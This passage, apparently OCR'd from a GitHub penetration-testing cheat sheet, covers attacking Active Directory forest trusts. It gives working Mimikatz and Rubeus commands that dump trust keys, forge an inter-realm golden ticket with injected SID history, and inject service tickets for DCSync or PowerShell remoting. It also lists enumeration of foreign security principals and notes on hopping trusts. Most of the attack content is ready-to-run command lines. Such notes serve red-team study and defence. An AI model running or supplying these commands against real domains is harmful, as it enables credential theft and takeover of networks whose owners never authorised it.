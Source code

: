 ````
- This means, if we have an external trust (or a forest trust with SID history enabled /enablesidhistory:yes), we can inject a SIDHistory for RID > 1000 to access resources accessible to that identity or group in the target trusting forest. 

#### Enumerate if SIDFilteringForestAware is enabled
- Run on the DC.
- `SIDFilteringForestAware` is set to True, it means SIDHistory is enabled across the forest trust.
```
Get-ADTrust -Filter *
```

#### Enumerate groups of the target forest with SID higher then 1000
```
Get-ADGroup -Filter 'SID -ge "<TARGET FOREST SID>-1000"' -Server <TARGET FOREST>
```
 
#### Get trust key
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```
 
#### Get domain SID
```
Get-DomainSID
```
 
#### Create a intern-forest TGT
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /rc4:<HASH OF TRUST KEY> /service:krbtgt /target:<TARGET FOREST> /sids:<SID OF THE GROUP>  /ticket:<KIRBI FILE>"'
```

#### Create and inject TGS
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe asktgs /ticket:<KIRBI FILE> /service:<SERVICE>/<TARGET SERVER> /dc:<TARGET FOREST DC> /ptt
```

#### Use the TGS and execute DCsync or psremoting etc!

## Foreign Security Principals
- A Foreign Security Principal (FSP) represents a Security Principal in a external forest trust or special identities (like Authenticated Users, Enterprise DCs etc.).

#### Enumerate users who are in groups outside of the user’s current domain
```
Get-DomainForeignUser 
ConvertFrom-SID <SID>
```

#### Enumerates group in the target domain that contain users/groups who are not in the target domain.
```
Get-DomainForeignGroupMember -Domain <TARGET DOMAIN FQDN>
ConvertFrom-SID <SID>
```
 
### Hop trust
- Easiest way is to use the username/password to start a new powershell session or do a runas.
- If you only have the user's RC4/AES keys, we can still request Kerberos tickets with Rubeus but it's more involved. We need an inter-realm key which Rubeus won't produce for us automatically, so we have to do it manually.
 
````